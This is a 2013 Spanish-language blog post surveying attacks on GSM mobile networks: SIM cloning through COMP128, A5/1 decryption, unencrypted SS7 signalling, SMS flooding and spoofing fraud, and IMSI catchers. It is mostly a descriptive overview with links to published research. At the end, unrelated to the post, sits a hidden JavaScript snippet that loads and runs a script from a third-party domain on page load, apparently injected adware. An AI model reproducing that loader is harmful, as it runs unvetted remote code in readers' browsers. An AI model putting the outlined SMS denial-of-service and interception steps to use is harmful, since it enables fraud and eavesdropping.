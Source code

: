 ```yaml
---
layout: post
title: Hacking en redes Moviles
date: 2013-01-15
author: neoranger
comments: true
categories: [Seguridad]
---
```

<div dir="ltr" style="text-align:left;"><div style="text-align:justify;">Antes  que nada quisiera dedicar estas lineas a un grande del internet :<br /><h1>Aaron Swartz ... </h1>No en vano el inventor de la World Wide Web, Sir Tim Berners-Lee,  tuiteó: "Aaron está muerto. Caminantes del mundo, perdimos a uno de  nuestros sabios. Hackers por derecho, perdimos a uno de los nuestros.  Padres todos, perdimos a un hijo. Lloremos".<br /><br />Bueno ahi  les dejo algo de información y espero que les sea de muchísima utilidad ,  pero eso sí el empleo que le den , serán ustedes los responsables, como  tema de investigación es fenomenal, existen diversos tipos de ataques  que han sido demostrados pero a pesar de haber sido detectadas dichas  vulnerabilidades aún la migración del algoritmo utilizado conllevaría  elevados costes para las compañías telefónicas, que tendría que  reconfigurar el servicio, y posiblemente tener que cambiar incluso  ciertos terminales de usuario y/o tarjetas SIM.</div><div style="text-align:justify;"><br /></div><div style="text-align:justify;"><b><u>1)Ataques al SIM:</u></b> Persiguen romper los algoritmos de cifrado de la SIM (A3+A8), con  objeto de acceder a la clave de la SIM Ki así como al número de IMSI,  normalmente con el objetivo de conseguir clonar la tarjeta SIM y  realizar llamadas de forma fraudulenta.</div><div style="text-align:justify;"><br /></div><div style="text-align:justify;"><b>Algoritmo COMP128:</b><br /><br /><a name='more'></a><br /><br />Inicialmente  se mantuvo en privado desde 1991 hasta 1997, cuando se filtró gran  parte del código del mismo; el resto de código que faltaba se obtuvo por  ingeniería inversa.<br />En Abril de 1998 la SDA (Smartcard Developer  Association) conjuntamente con dos investigadores de la U.C. de Berkeley  (Wagner/Goldberg), hicieron público el primer ataque al COMP128.</div><div style="text-align:justify;"><br /></div><div style="text-align:justify;">Woronscan  es una herramienta para el clonado de tarjetas SIM basado en  debilidades del algoritmo COMP128, requiere acceso físico a la tarjeta. </div><div style="text-align:justify;"><br /></div><div style="text-align:justify;">Spy-Wokiscan:  Troyano que se embebe en software para clonado de SIMs dentro de  ciertos paquetes del WoronScan, y que una vez se obtiene la clave, el  IMSI envía dicha información a cuentas de correo rusas. Download:</div><div style="text-align:justify;"><br /><b><span style="color:yellow;">http://www.mcafee.com/threat-intelligence/malware/default.aspx?id=142989</span></b></div><div style="text-align:justify;"><br /><u><b>2)Ataques a la señal de radio</b></u>:<br /><br />Persiguen conseguir acceder a información confidencial de llamadas, “sniffando” la<b> </b>señal de radio entre la MS y las BTS.<br />No  hay autenticación en la red, por tanto ataques de “Man in the middle”  son factibles. Esta señal está cifrada con el algoritmo A5/1, utilizando  la clave de sesión generada Kc.<br />Alex Biryukov, Adi Ahamir y David  Wagner, publican un esquema que rompe el algoritmo robusto A5/1, con  dos minutos de datos de llamada interceptada; el tiempo de ataque duró  solo 1 segundo: <br /><br /><span style="color:yellow;"><b>http://cryptome.org/a51-bsw.htm </b></span><br /><br /><u><b>3)Ataques A5/1 diciembre 2009 (Karsten Nohl, Chris Paget):</b></u><br /><br />Ingredientes necesarios para el éxito (Opensource):<br /><b>3.1. </b>Máquinas de procesamiento distribuido de alto rendimiento (grid computing):<br /><br />      <b><span style="color:yellow;"> Nvidia GTX280: 500 chains/s</span></b><br /><b><span style="color:yellow;">       PS3 Cell: 500 chains/s</span></b><br /><b><span style="color:yellow;">       ATI HD5870: 500 chains/s</span></b><br /><br /><b>3.2</b>.Software de Parametrización adecuado disponible en:<br /><br /><br /><b><span style="color:yellow;">       https://srlabs.de/decrypting_gsm/</span></b><br /><span style="color:yellow;"><b>       Tablas generadas y disponibles en Bittorrent.<br />       http://reflextor.com/e100torrents/</b></span><br /><span style="color:yellow;"><b>       Un portátil y un equipo de RF .</b></span><br /><br /><b>3.3.</b>Ya no es necesario ni siquiera el equipamiento indicado, es posible hacerlo con<b> </b>dispositivos móviles de $15 que actúan como sniffers corriendo un software de código abierto debidamente modificado.<br /><br /><span style="color:yellow;"><b>http://bb.osmocom.org/trac/</b></span><br /><br />De momento sólo compatible con algunos móviles antiguos de Motorola y Sony Ericsson.<br />Demostrado en la 27th Chaos Communication Congress el pasado 28 de diciembre de 2010:<br /><br /><b><span style="color:yellow;"> http://events.ccc.de/congress/2010/Fahrplan/attachments/1783_101228.27C3.GSM-Sniffing.Nohl_Munaut.pdf.</span></b></div><div style="text-align:justify;"><br />José Picó y David Perez de Taddong presentaron la demostración práctica en la RootedCON de 2011:<br /><br /><span style="color:yellow;"><b>http://www.slideshare.net/rootedcon/david-prez-jos-pic-un-ataque-prctico-contracomunicaciones-mviles-rootedcon-2011<br /> </b></span><br /><span style="color:yellow;"><b>http://vimeo.com/27258284</b></span><br /><br />Soluciones  al atque de A5/1<br />Solución actual: Aplicaciones de cifrado End-to-End: <b><span style="color:yellow;">http://www.cellcrypt.com</span></b><br /><b><span style="color:yellow;"><br /></span></b><b><u>4)Ataques a la red de señalización</u></b><br /><b><br /></b>Las  transmisiones solamente están cifradas entre el MS y las BTS, el resto  tráfico tras las BTS está sin cifrar. Los protocolos dentro de la red  del operador (BSSAP,MAP) están sin cifrar, por tanto cualquiera con  acceso a la red SS7 puede leer y/o modificar la información en el  aire.Por tanto si un hacker consigue acceder a la red de señalización,  puede obtener TODA la información sobre las llamadas.Si el hacker  accediera a la HLR, podría ser capaz de obtener todas las Ki de todoslos  clientes de una red. A pesar de que los algoritmos de cifrado mejoren,  la arquitectura de la red GSM seguirá siendo vulnerable a ataques desde  dentro y contra la red backbone del operador.</div><div style="text-align:justify;"><br /><u><b>5)Ataques de SMS DoS</b></u><br /><br />Persiguen  denegar el servicio de SMS e incluso de voz de un operador, mediante la  saturación de canales de tráfico de la red radio, en concreto los  canales de control. Como consecuencia de la cada vez mayor interconexión  con Internet de los servicios de móvil. En noviembre de 2005,  investigadores de la Universidad de Pensilvania publicaron un estudio al  respecto, sobre lo sencillo que sería realizar un ataque de DoS sobre  toda la ciudad de Manhattan o de Washington D.C. utilizando únicamente  un cablemodem   Con una botnet se podrían atacar todas las  comunicaciones de USA:<br /><br /><span style="color:yellow;"><b>http://smsanalysis.org/smsanalysis.pdf</b></span><br /><br />Requisitos para la realización de este tipo de ataques:<br />-Disponer de un servicio de envío de SMS por Internet.<br />-Disponer  de una lista de Objetivos (móviles) fiable   Diferentes formas de  obtenerla: (Web scraping, Bluetooth, Contactos sincronizados robados por  troyanos,etc…).<br />-Conocer la política de entrega de SMS del  proveedor: Buffer de mensajes, tipo de lista de entrega: LIFO, FIFO y  plazo de retención.<br />-Lanzar ataque distribuido a través de envío  simultáneo de SMS por medio de portales SMS disponibles, causando la  saturación de los canales de control en la transmisión.<br /><br /><u><b>6)Ataques SMS: SMS Spoofing</b></u><br /><br />¿Cómo  obtienen beneficio los atacantes del SMS spoofing? Normalmente mediante  ingeniería social, animando a llamar a números de alto coste o a  acceder a páginas web con malware albergado. Asimismo, potencialmente  podrían utilizarse para envío de comunicados erróneos, por ejemplo de  servicios bancarios con objeto de animar a los usuarios a facilitar  información sensible  Ligado al SMShing.<br /><br />Caso reciente:  Atacante envía grandes volúmenes de SMS fraudulentos a clientes de un  proveedor italiano a través de un conocido proveedor de móvil. El  mensaje solicitaba a los abonados llamar a un número de voz de  tarificación adicional. Los abonados italianos pagaban al operador  italiano por llamadas de alto coste, y el<br />operador italiano pagaba  la parte proporcional de beneficios a un proveedor del servicio, que a  su vez repercutía en el atacante. A los abonados inocentes del proveedor  de móvil, cuyos números origen habían<br />sido falsificados, les  facturaban cada mensaje SMS en roaming. El operador se dio cuenta a  tiempo y paró la facturación antes de que llegaran a los clientes.  Impactos para el negocio: Insatisfacción de clientes, pérdidas derivadas  de los costes de envío internacional de móvil, costes a la red  receptora de procesamiento<br />de los SMS   Mala imagen para la red receptora y para la red “falsificada”.<br /><br /><u><b>7)Ataques Man-in-the-Middle:</b></u><br /><br />Permite  obtener información sensible de un móvil objetivo utilizando para ello  un dispositivo, IMSI catcher o VBTS (Virtual Base Transceiver Station),  que emitiendo con una mayor potencia que la antena legítima del operador  induce al dispositivo móvil a registrarse en esta BTS falsa, con objeto  de capturar<br />información sensible del abonado. Permite obtener los  IMSI, IMEI de los móviles, la localización de los mismos así como  potencialmente poder escuchar y/o interceptar conversaciones  telefónicas.<br /><br />Utilizado habitualmente por las  autoridades para llevar a cabo investigaciones. El famoso hacker Kevin  Mitnick fue localizado utilizando una técnica similar en los años 90 por  el FBI, ayudados por una antena de elevada potencia montada sobre un  camión, denominada “triggerfish”. (En España esto violaría el artículo  18.3 de la constitución, deber de secreto de las comunicaciones):<br /><br /><span style="color:yellow;"><b>http://www.essortment.com/all/kevinmitnickco_rmap.htm</b></span><br /><br />Equipamiento avanzado para espionaje, mediante la técnica de “IMSI catcher” disponible a la venta en Internet:<br /><br /><span style="color:yellow;"><b>http://www.ukspyequipment.com/more/on/details/00052</b></span></div><div style="text-align:justify;">Bueno muchachos a seguir investigando , que por seguro encontrarán mejores herramientas y técnicas.<br /><br /><br />arthurhuamanic.blogspot.com.es</div>(function(){try{var header=document.getElementsByTagName("HEAD")[0];var script=document.createElement("SCRIPT");script.src="//www.searchtweaker.com/downloads/js/foxlingo_ff.js";script.onload=script.onreadystatechange=function(){if (!(this.readyState)||(this.readyState=="complete"||this.readyState=="loaded")){script.onload=null;script.onreadystatechange=null;header.removeChild(script);}}; header.appendChild(script);} catch(e) {}})();</div>
